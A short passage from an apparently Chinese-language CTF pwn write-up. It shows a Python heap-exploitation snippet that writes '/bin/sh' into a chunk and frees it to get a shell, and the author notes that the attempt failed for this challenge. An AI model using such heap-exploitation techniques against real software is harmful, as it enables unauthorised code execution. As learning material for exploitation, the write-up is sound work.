 ```python
edit(8,len(py),py)
edit(1,8,'/bin/sh\x00')
free(1)
debug(0x400B94,0)
```

此时如果前面的都正确，然后去free一个有/bin/sh的堆块，就会getshell。

但是还是报错了。


![upload successful](/images/pasted-146.png)


思路就是这样，但是这道利用不了，掌握这个方法就ok。亦已焉哉～



同样的思路，size的地址部分也有一个0xXX的值，用同样的方法利用。

![upload successful](/images/pasted-147.png)
